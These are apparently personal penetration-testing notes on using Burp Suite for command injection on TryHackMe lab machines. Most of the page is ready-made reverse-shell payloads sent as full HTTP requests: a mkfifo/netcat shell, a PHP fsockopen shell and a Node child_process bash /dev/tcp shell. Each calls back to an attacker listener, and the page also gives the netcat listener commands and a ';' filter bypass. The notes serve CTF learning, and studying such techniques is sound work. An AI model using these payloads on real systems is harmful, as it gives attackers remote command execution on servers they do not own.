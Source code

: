 # Burp



## Find Parameters

Try using burp suite intruder to brute force to find other parameters&#x20;





## Command Injection

**Examples**

[hacker-vs.-hacker.md](../../walkthroughs/tryhackme/hacker-vs.-hacker.md "mention")

Started using Burp while testing out payloads to url-encode payloads more easy.

**Kali**

```
nc lvnp 1337
```

Started using Burp while testing out payloads to url-encode payloads more easy.

**Burp**

```
GET /cvs/shell.pdf.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.9.104+1337+>/tmp/f HTTP/1.1
Host: 10.10.21.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Bypass Filters - ;

try adding ; and then a command.

**Burp Request**

```
GET /index.php?path=;php+-r+'$sock%3dfsockopen("$KALI",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.128.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### Change Request Type

**Examples**

[glitch.md](../../walkthroughs/tryhackme/glitch.md "mention")

Change the request from GET to POST and it gives an interesting message

<figure><img src="../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

Running the below shows it is vulnerable

<figure><img src="../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

If it works try getting a shell

**Kali**

```
nc -lvnp
```

**Burp**

```
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/$KALI/1337+0>%261"') HTTP/1.1
Host: 10.10.22.153
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=value
Upgrade-Insecure-Requests: 1
```



<figure><img src="../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

## Exploiting Vulnerable Password Reset Logic(OTP)

**Examples**

[#exploiting-vulnerable-password-reset-logic](enumeration-and-brute-force.md#exploiting-vulnerable-password-reset-logic "mention")

## Exploiting HTTP Basic Authentication

**Examples**

[#exploiting-http-basic-authentication](enumeration-and-brute-force.md#exploiting-http-basic-authentication "mention")

##



